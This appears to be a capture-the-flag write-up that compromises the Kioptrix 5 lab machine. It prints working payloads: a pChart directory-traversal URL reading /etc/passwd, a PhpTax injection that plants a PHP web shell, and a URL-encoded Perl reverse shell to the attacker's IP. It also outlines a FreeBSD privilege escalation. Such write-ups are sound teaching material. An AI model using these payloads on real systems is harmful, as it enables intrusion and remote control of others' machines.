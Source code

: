 # Kioptrix 5 Walkthrough

We first did some enumeration to identify our vulnerable machine. Using `arp-scan -l` we found our vulnerable machine to be `172.168.48.136`.

We then performed a basic nmap scan to get to know ports that are open and any other basic information that would be of help.

![Enumeration Results](/post-images/Kioptrix%205/01%20Enum.png)

Our nmap results were the following, with port 22 (ssh) closed, 80 open we would access a web version supported by apache. So we opened our machines IP in our web browser.

The browser pulled up with a message that it work, we did a directory bust with dirb but nothing cropped. So we assumed that there were no any other files for the site. Since this site was listening from port 80 we decided to listen out on what was from port 8080, and below were our findings.

![Enumeration Results](/post-images/Kioptrix%205/03%20Forbbiden.png)

With this we thought that the site was unreachable, but when we view the source code of the site we came to the realization that the error was hardcoded to the site so it wasn't genuine error code.

![Enumeration Results](/post-images/Kioptrix%205/04%20smoke%20and%20mirrors.png)

This prompted us to check out the site from port 80 and viewed it's source code and we found a url redirection to a point in the site with `/pChart2.1.3/examples/index.php`. So we decided to visit the site.

![Enumeration Results](/post-images/Kioptrix%205/05%20back%20log.png)

We only found charts, there was nothing much of importance after looking around for a while, found some code in the imaging map and found that the code is that, that is used to create the charts so that was a dead end too.

![Enumeration Results](/post-images/Kioptrix%205/06%20back%20server.png)

![Enumeration Results](/post-images/Kioptrix%205/07%20search.png)

So we decided to look for important files in the backend of the machine's site, so we prompted it with the command:


So we check the usr(User System Resources which contains user files and manually installed files) luckily we found a local folder and the etc folder and the apache22 folder which contained the configuration files.

We read across the document and couldn't find ways to make changes to the configuration file remotely.

```
{http://172.168.48.136/pChart2.1.3/examples/index.php?Action=View&Script=/../../etc/passwd }

 ```

![Enumeration Results](/post-images/Kioptrix%205/09con.png)

So we read the contents at the bottom indicated that the site was only compatible with mozilla/4.0, and our browser was 5.0 so it meant there were files we couldn't access (restricted content).

![Enumeration Results](/post-images/Kioptrix%205/10%20mozilla%20v.png)

So we decided to look for a work around and found out that we could use to change the user agent of the browser [here](https://www.howtogeek.com/113439/how-to-change-your-browsers-user-agent-without-installing-any-extensions/). We followed the instructions and boom there it was switched from 5.0 to 4.0.

![Enumeration Results](/post-images/Kioptrix%205/11%20about.png)

![Enumeration Results](/post-images/Kioptrix%205/12%20general.useragent.override.png)

![Enumeration Results](/post-images/Kioptrix%205/13%20mozilla%20v.png)

![Enumeration Results](/post-images/Kioptrix%205/14%20change.pref.png)

After refreshing the page with the new configurations, the page `http://172.168.48.136:8080/` we were presented with an index with a phptax.php file.

![Enumeration Results](/post-images/Kioptrix%205/15%20index.php.png)

We opened the phptax redirect and it opened a website with a tax file from a William.

![Enumeration Results](/post-images/Kioptrix%205/16%20php_tax.png)

So we wrote a php script to inject a rce code that will inject a rce.php in the /data folder.

```
{http://172.168.48.136:8080/phptax/index.php?field=rce.php&newvalue=<%3Fphp passthru(%24_GET[cmd])%3B%3F>}

```

- field=rce.php - Specifies the file name to be created or manipulated. In this case, the file rce.php will be created in the ./data/ directory
- newvalue=%3C%3Fphp%20passthru(%24_GET%5Bcmd%5D)%3B%3F%3E - This is the URL-encoded PHP code that will be written to the file rce.php.
- <?php passthru($_GET['cmd']); ?> - PHP function that executes a system command and outputs the result, Retrieves the value of the cmd parameter from the URL.

With the command execution successfully exploiting the Remote Code Execution (RCE) vulnerability in the PhpTax application we added a script to prompt a cmd parameter in the rce to provide the value of the id of the system with this code:

```
{http://172.168.48.136:8080/phptax/data/rce.php?cmd=id}

```

- /phptax/data/rce.php? - This is the path to the malicious file (rce.php) created in the ./data/ directory of the PhpTax application and file rce.php contains PHP code that allows command execution.

![Enumeration Results](/post-images/Kioptrix%205/17%20phptax_payload.png)

![Enumeration Results](/post-images/Kioptrix%205/18%20return_cmd.png)

```
{http://172.168.48.136:8080/phptax/data/rce.php?cmd=perl -e 'use Socket%3B%24i%3D"172.168.48.134"%3B%24p%3D4444%3Bsocket(S%2CPF_INET%2CSOCK_STREAM%2Cgetprotobyname("tcp"))%3bif(connect(S%2csockaddr_in(%24p%2cinet_aton(%24i))))%7bopen(STDIN%2c%22%3E%26S%22)%3bopen(STDOUT%2c%22%3E%26S%22)%3bopen(STDERR%2c%22%3E%26S%22)%3bexec(%22%2fbin%2fsh%20-i%22)%3b%7d%3b%27}

```
Then open a perl reverse shell that opens the cmd=id prompt with the reverse shell.

This opened with a netcat on my terminal pulls a bash shell in the netcat listener.

![Enumeration Results](/post-images/Kioptrix%205/20%20nc%20listener.png)

![Enumeration Results](/post-images/Kioptrix%205/19whoami.png)

Since we know that the kioptrix machine is running on FreeBSD we look for a privilege escalation on FreeBSD and we find 2. One has issues in the compilation and so we used the second exploit. We tried opening a simple http server using python and ran it, tried using wget but it didn't function, we could also use fetch which also like wget, so we decided to use netcat which we opened a listener in our Kali terminal and another in our target machine which accepts the file from our listener in the Kali terminal. The exploit gets copied to our target machine.

![Enumeration Results](/post-images/Kioptrix%205/22%20netcat.png)

We then compiled the exploit and put the output to root.

![Enumeration Results](/post-images/Kioptrix%205/23%20compile.png)

We then ran the exploit and we get root.

![Enumeration Results](/post-images/Kioptrix%205/24%20who%20ami.png)

We navigated for any interesting thing since the box is described as a CTF box where the idea in CTFs is to find flags which are used as PoC. According to most CTFs flags in AD games are in var, etc and root folders. So navigating to root folder we get the congrats.txt, we cat and we get this message.

![Enumeration Results](/post-images/Kioptrix%205/25%20congrats.txt.png)

<mark>The box is completed.</mark>